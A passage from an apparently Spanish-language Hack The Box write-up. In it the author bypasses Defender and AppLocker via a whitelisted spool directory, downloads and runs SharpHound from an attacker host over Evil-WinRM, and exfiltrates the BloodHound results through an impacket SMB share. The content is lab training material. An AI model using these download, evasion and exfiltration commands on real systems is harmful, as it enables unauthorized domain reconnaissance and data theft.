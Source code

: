El defender lo bloquea. Para burlarlo, me dirijo a una ruta del [AppLocker Bypass](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md) y opero desde allí

```null
*Evil-WinRM* PS C:\Users\amanda\Documents> cd C:\Windows\System32\spool\drivers\color
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> iwr -uri http://10.10.16.6/SharpHound.exe -o SharHound.exe
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> iwr -uri http://10.10.16.6/SharpHound.exe -o SharpHound.exe
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> .\SharpHound.exe
2023-01-20T08:49:17.3497572-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-20T08:49:17.3654172-05:00|INFORMATION|Initializing SharpHound at 8:49 AM on 1/20/2023
2023-01-20T08:49:17.6153871-05:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-20T08:49:17.8653866-05:00|INFORMATION|Beginning LDAP search for HTB.LOCAL
2023-01-20T08:49:17.9122597-05:00|INFORMATION|Producer has finished, closing LDAP channel
2023-01-20T08:49:17.9122597-05:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-01-20T08:49:48.4435998-05:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2023-01-20T08:50:01.2873810-05:00|INFORMATION|Consumers finished, closing output channel
2023-01-20T08:50:01.3342254-05:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-01-20T08:50:01.7092499-05:00|INFORMATION|Status: 94 objects finished (+94 2.186047)/s -- Using 55 MB RAM
2023-01-20T08:50:01.7092499-05:00|INFORMATION|Enumeration finished in 00:00:43.8519372
2023-01-20T08:50:01.8967519-05:00|INFORMATION|SharpHound Enumeration Completed at 8:50 AM on 1/20/2023! Happy Graphing!
```

Con impacket-smbserver transfiero el zip del SharpHound a mi equipo

```null
smbserver.py shared $(pwd) -smb2support
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Desde la máquina víctima copio el recurso

```null
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> copy .\20230120085001_BloodHound.zip \\10.10.16.6\Shared\bh.zip
```

Ejecuto neo4j y bloodhound
